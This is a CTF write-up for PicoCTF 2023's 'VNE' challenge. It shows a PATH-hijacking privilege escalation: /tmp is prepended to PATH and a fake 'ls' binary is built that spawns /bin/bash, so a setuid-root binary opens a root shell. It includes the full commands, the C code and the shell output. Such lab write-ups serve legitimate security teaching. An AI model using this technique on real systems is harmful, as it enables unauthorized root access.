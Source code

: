 ```yaml
---
title: "PicoCTF 2023 Binary Exploitation: VNE"
description: "Writeup for VNE from PicoCTF 2023"
slug: "picoctf-vne"
date: "2023-04-06 00:00:00+0000"
image: "cover.jpg"
categories:
    - "Pwn"
tags: 
weight: 1
---
```


## Initial Stuff

It is important to get familiar with the machine we log into so that we can find important assets such as possible vulnerabilities, which we may be able to exploit to get us root access.

### Important Details

* A binary that lists a directory as root
* Why this is important: It does it as root via an SUID bit, because the root user made the executable
* How it works: It takes the input for the directory as an environment variable
* Other important takeaways: If it is listing the contents of a directory, it is most probably doing something with the ls binary

```
ctf-player@pico-chall$ ls
bin
ctf-player@pico-chall$ file bin
bin: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l d-linux-x86-64.so.2, BuildID[shal]=202cb71538089bb22aa22d5d3f8f77a8a94a826f, for GNU/Linux 3.2.0, not stripp 
ctf-player@pico-chall$ ls -l
ed
total 20
-rwsr-xr-x 1 root root 18752 Aug 4 2023 bin
ctf-player@pico-chall$
```

> SUID, short for Set User ID, is a special permission that can be assigned to executable files. When an executable file has the SUID permission enabled, it allows users who execute the file to temporarily assume the privileges of the file's owner.

## Plan
Using the information we have gathered, we can try to assess vulnerabilities on the target system. So far, we have thought of environment variable injection so we can try to plan this out.

We make an ls binary that spawns a shell. Since the file has an SUID, this will give us a root shell if the binary we are manipulating uses ls (in which according to the hints, it does).

### The Plan in Practice 
When "ls" is typed into the command line, the system looks through path for an executable with the name "ls". So in the injected PATH, because `/tmp` is first, when the binary which runs ls as root runs "ls" as root it wil run the binary as root which will run /bin/bash root.

![image](https://github.com/shuban-789/PicoPwnbooks-BinaryExploitation/assets/67974101/9525b700-e39d-4ec6-a2b6-62fe0edec152)


## Actually Doing Stuff
First, let's log onto the machine. To logon, we will need to use ssh with the command format of: 

`ssh -p <port> <user>@<ip>`

After logging on, let’s list the environment variables, and try editing the PATH.

```
ctf-player@pico-chall$ env SHELL=/bin/bash
PWD=/home/ctf-player
LOGNAME=ctf-player
MOTD_SHOWN=pam
HOME=/home/ctf-player
LANG=C.UTF-8
SSH_CONNECTION=127.0.0.1 55826 127.0.0.1 22
TERM=xterm-256color
USER=ctf-player
SHLVL=1
PS1=\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ SSH_CLIENT=127.0.0.1 55826 22
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
SSH_TTY=/dev/pts/0
_=/usr/bin/env
ctf-player@pico-chall$ export PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/ga
mes:/usr/local/games:/snap/bin
ctf-player@pico-chall$ env
SHELL=/bin/bash
PWD=/home/ctf-player
LOGNAME=ctf-player
MOTD_SHOWN=pam
HOME=/home/ctf-player
LANG=C.UTF-8
SSH_CONNECTION=127.0.0.1 55826 127.0.0.1 22
TERM=xterm-256color
USER=ctf-player
SHLVL=1
PS1=\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ SSH_CLIENT=127.0.0.1 55826 22
PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
SSH_TTY=/dev/pts/0
_=/usr/bin/env
ctf-player@pico-chall$
```

It looks like the injection worked, so we can move on to making the fake ls executable.

Finally, we need to make the fake ls binary containing this C code:

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
  system("/bin/bash");
}
```

<br>

```
ctf-player@pico-chall$ touch ls.c
ctf-player@pico-chall$ echo "#include <stdio.h>" >> ls.c
ctf-player@pico-chall$ echo "#include <stdlib.h>" >> ls.c
ctf-player@pico-chall$ echo "int main()" >> ls.c
ctf-player@pico-chall$ echo "{" >> ls.c
ctf-player@pico-chall$ echo " system(\"/bin/bash\");" >> ls.c 
ctf-player@pico-chall$ echo "}" >> ls.c
ctf-player@pico-chall$ cc ls.c -o ls
ctf-player@pico-chall$ ./bin
Listing the content of /root as root:
root@challenge:/# cd /root
root@challenge: /root# cat flag.txt
picoCTF{insert_vne_flag_here}root@challenge: /root# exit
```

